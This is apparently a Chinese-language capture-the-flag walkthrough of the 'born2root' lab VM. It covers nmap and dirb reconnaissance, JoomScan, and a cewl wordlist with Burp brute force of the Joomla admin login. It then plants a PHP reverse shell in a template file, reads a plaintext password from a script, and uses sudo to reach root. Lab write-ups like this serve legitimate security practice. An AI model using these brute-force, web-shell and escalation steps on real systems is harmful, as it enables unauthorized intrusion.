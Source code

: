 VMware双击打开，默认nat模式即可！

--------------------------------------------
--------------------------------------------
1、nmap 192.168.253.0/24 -sP
MAC Address: 00:50:56:E1:B2:64 (VMware)
Nmap scan report for localhost (192.168.253.228)

--------------------------------------------
--------------------------------------------
2、nmap 192.168.253.228 -p- -A
PORT   STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Welcome to my website
111/tcp   open  rpcbind 2-4 (RPC #100000)
52121/tcp open  status  1 (RPC #100024)


--------------------------------------------
--------------------------------------------
3、web信息收集-目录爆破
dirb http://192.168.253.228/
http://192.168.253.228/joomla/

已经找到了joomla目录，将在浏览器上浏览joomla目录：
http://192.168.253.228/joomla/

--------------------------------------------
--------------------------------------------
4、Joomla

访问发现这是Joomla站！https://baike.baidu.com/item/joomla/3104596

Joomla!是一套全球知名的内容管理系统。Joomla!是使用PHP语言加上MySQL数据库所开发的软件系统，最新版本是3.9.27。可以在Linux、 Windows、MacOSX等各种不同的平台上执行。是由Open Source Matters（见扩展阅读）这个开放源码组织进行开发与支持，这个组织的成员来自全世界各地，小组成员约有150人，包含了开发者、设计者、系统管理者、文件撰写者，以及超过2万名的参与会员。
自2012年颁奖典礼开始以来，Joomla连续多年成为CMS评奖的冠军。继2015、2016、2017、2018年在全球CMS评测中，它再次获得“最佳开源CMS”奖!

--------------------------------------------
--------------------------------------------
5、JoomScan漏扫

漏洞扫描器（JoomScan）是一个开源项目，其主要目的是实现漏洞检测的自动化，以增强Joomla CMS开发的安全性。 该工具基于Perl开发，能够轻松无缝地对各种Joomla项目进行漏洞扫描，其轻量化和模块化的架构能够保证扫描过程中不会留下过多的痕迹。

joomscan -u http://192.168.253.228/

[++] Joomla 3.6.0
[++] Admin page : http://192.168.253.228/joomla/administrator/
发现后台登录页面！

--------------------------------------------
--------------------------------------------
6、暴力破解管理后台

joomla default credentials   ---谷歌搜索
If this is your first time logging in as the root administrator, the default username is admin. Enter the password you created during installation. Click Login. You are now logged in to Joomla as admin, on the admin panel.
查看到默认用户名为：admin

joomla使用手册：
https://support.websoft9.com/docs/joomla/zh/stack-accounts.html#joomla


尝试默认账号密码登录：
admin  admin

提示：
Warning
Username and password do not match or you do not have an account yet.

警告：
用户名和密码不匹配，或者您还没有帐户。

页面爬密码文本：
cewl http://192.168.253.228/joomla/ > pass.txt
wc -l pass.txt     
126 pass.txt

burpsuite爆破：
发现仅有travel length显示：301   
对应了网页的聊天：So my passions are travel , football , music .

wfuzz 用这个方法也可以！hydra


admin
travel


--------------------------------------------
--------------------------------------------
7、getshell-Joomla

菜单栏上的：Extensions -> Templates -> Templates
进入后选择第一个模快：Beez3 Details and Files

index.php写入：php-reverse-shell.php
cp /usr/share/webshells/php/php-reverse-shell.php .

save后点击Template Preview成功获得反弹shell！

--------------------------------------------
--------------------------------------------
8、内部信息收集：

Linux version 3.16.0-6-586

127.0.0.1:3306


You can write SUID file: /usr/bin/sudo

You can write script: /usr/bin/gettext.sh

[+] Permissions in init, init.d, systemd, and rc.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#init-init-d-systemd-and-rc-d
You have write privileges over /lib/systemd/systemd-udevd
/lib/systemd/systemd-bus-proxyd
/lib/systemd/systemd



find / -user tim 2>&1 | grep -v "Permission denied\|proc"
/opt/scripts/fileshare.py
/var/mail/ted


--------------------------------------------
--------------------------------------------
9、提权

cat /opt/scripts/fileshare.py
hostname = "localhost"
password = "lulzlol

su tim
lulzlol


sudo -l
User tim may run the following commands on born2root:
    (ALL : ALL) ALL


sudo su   ---成功拿到root权限！































































